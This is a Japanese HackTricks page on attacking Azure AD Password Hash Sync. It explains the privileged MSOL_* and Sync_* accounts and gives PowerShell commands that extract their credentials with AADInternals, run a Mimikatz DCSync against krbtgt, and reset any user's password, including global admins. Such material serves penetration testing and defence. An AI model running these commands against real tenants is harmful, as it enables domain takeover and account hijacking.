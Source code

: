 # Az - PHS - パスワードハッシュ同期

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksに広告を掲載したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有してください。

</details>

## 基本情報

**パスワードハッシュ同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の一つです。**Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスに、ユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

これは、オンプレミスのADとAzure ADを同期するために企業が使用する**最も一般的な方法**です。

**ユーザー**と**パスワードハッシュのハッシュ**は、オンプレミスからAzure ADに同期されます。ただし、**クリアテキストのパスワード**や**オリジナルのハッシュ**はAzure ADに送信されません。
さらに、**組み込み**のセキュリティグループ（ドメイン管理者など）はAzure ADに**同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、Azure ADでは**パスワードの有効期限**と**アカウントの有効期限**は**同期されません**。そのため、**オンプレミスのパスワードが期限切れ**（変更されていない）のユーザーでも、古いパスワードを使用してAzureリソースに**アクセスを続ける**ことができます。

オンプレミスのユーザーがAzureリソースにアクセスしたい場合、**認証はAzure ADで行われます**。

**PHS**は、**Identity Protection**やAADドメインサービスのような機能に必要です。

## ピボット

PHSが設定されると、いくつかの**特権アカウント**が自動的に**作成**されます：

* アカウント**`MSOL_<installationID>`**はオンプレミスADに自動的に作成されます。このアカウントには**ディレクトリ同期アカウント**の役割が与えられます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）これは、オンプレミスADで**レプリケーション（DCSync）の権限**を持っていることを意味します。
* Azure ADには、**`Sync_<on-prem ADConnectサーバーの名前>_installationID`**というアカウントが作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたもの、またはクラウドのみ）のパスワードを**リセットできます**。

これら2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー**上のSQLサーバーに**保存されています**。管理者は、これらの特権ユーザーのパスワードをクリアテキストで抽出することができます。
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの一つから設定を抽出することが可能で、そのうちの一つは暗号化されています：

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**暗号化された設定**は**DPAPI**で暗号化されており、オンプレミスADの**`MSOL_*`**ユーザーのパスワードとAzureADの**Sync\_\***のパスワードが含まれています。したがって、これらを侵害することで、ADとAzureADに対する権限昇格が可能になります。

これらの資格情報がどのように保存され、復号されるかについての[完全な概要はこのトークで見ることができます](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### **Azure AD connectサーバー**を見つける

**Azure AD connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されています）、それを見つけることが可能です：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)も使用できます。
{% endhint %}

### Sync\_\*の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーのパスワード**のみを変更する**ことも可能です（それが予期せぬことであっても）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションとして、**サービスプリンシパルに特権権限を割り当てる**ことが考えられます。**Sync** ユーザーはそれを行う**権限**を持っており、そのサービスプリンシパルに**アクセスする**ことで権限昇格の方法となり得ます。
{% endhint %}

### シームレス SSO

PHS と組み合わせてシームレス SSO を使用することが可能で、これは他の悪用にも弱いです。以下で確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>AWS ハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricks をサポートする他の方法：

* **HackTricks にあなたの会社を広告したい**、または **HackTricks を PDF でダウンロードしたい** 場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式の PEASS & HackTricks グッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFT**](https://opensea.io/collection/the-peass-family) コレクションをチェックする
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f)や [**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を **フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出して、あなたのハッキングのコツを**共有する**。

</details>
